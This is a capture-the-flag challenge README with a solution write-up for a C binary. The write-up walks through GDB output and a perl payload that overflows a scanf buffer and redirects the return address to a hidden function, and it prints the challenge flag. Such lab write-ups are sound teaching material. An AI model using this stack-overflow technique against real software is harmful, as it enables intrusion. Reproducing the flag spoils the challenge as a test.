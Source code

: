 # Challenge Name

## Exploded

Here's a program that I made. Seems like it works the way I want it to.

`nc <hostname> <port>`

*Creator - Noans*

## Setup Guide
1. Run `build.sh` in the service folder.

## Distribution
- stolen
    - SHA1: `6c79423c4ee2c70c07fa2ad3eb102e1d1986a5cc`
    - Compiled C binary

## Solution
The program, written in C, is vulnerable to the buffer overflow exploit.

Using GDB, disassembling the main method will give the follow output will tell us that a method called `doStuff` is run. Upon disassembling the `doStuff` method, we will see that is simply a method that prints some text and uses `scanf()` to attain user input.

Knowing this, we can thus attempt to exploit `scanf()` since it is vulnerable to buffer overflow exploits.

Using `info functions` in GDB, we can list all the functions as shown below:
```asm
(gdb) info functions
Non-debugging symbols:
0x00005555555546d8  _init
0x0000555555554700  setbuf@plt
0x0000555555554710  printf@plt
0x0000555555554720  srand@plt
0x0000555555554730  time@plt
0x0000555555554740  setvbuf@plt
0x0000555555554750  __isoc99_scanf@plt
0x0000555555554760  rand@plt
0x0000555555554770  __cxa_finalize@plt
0x0000555555554780  _start
0x00005555555547b0  deregister_tm_clones
0x00005555555547f0  register_tm_clones
0x0000555555554840  __do_global_dtors_aux
0x0000555555554880  frame_dummy
0x000055555555488a  main
0x00005555555548ed  doStuff
0x0000555555554947  interestingFunction
0x000055555555495f  randomOutput
0x00005555555549d0  __libc_csu_init
0x0000555555554a40  __libc_csu_fini
0x0000555555554a44  _fini
```

The output shows us a function called `interestingFunction` that is neither used in the main method or in `doStuff`.

Recalling the previously disassembled `doStuff` method, in the disassembly, we will see a line `0x0000555555554906 <+25>:	lea    -0x30(%rbp),%rax`. This line tells us that the variable used in the scanf method was allocated a space of 48 bytes in the stack. This thus allows us to build our exploit string.

Taking into account that the rbp is 8 bytes, we would need to write a total of 56 bytes before we can override the return address to run the interestingFunction.

Disassembling the `interestingFunction` method, we will see the following output:
```asm
Dump of assembler code for function interestingFunction:
   0x0000555555554947 <+0>:	push   %rbp
   0x0000555555554948 <+1>:	mov    %rsp,%rbp
   0x000055555555494b <+4>:	lea    0x118(%rip),%rdi        # 0x555555554a6a
   0x0000555555554952 <+11>:	mov    $0x0,%eax
   0x0000555555554957 <+16>:	callq  0x555555554710 <printf@plt>
   0x000055555555495c <+21>:	nop
   0x000055555555495d <+22>:	pop    %rbp
   0x000055555555495e <+23>:	retq
End of assembler dump.
```

Thus, our exploit string can be generated with the follow command, account for the 56 bytes we need to write and the address of `interestingFunction` after the first line.

`perl -e 'print "a"x56 . "\x48\x49\x55\x55\x55\x55\x00\x00"'`

This gives us the string `aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaHIUUUU`.

With the string generated from the above, we can run `nc <hostname> <port>` and enter the string as input to get the flag.

### Flag
`GCTF{0V3R_7H3_L1M17}`
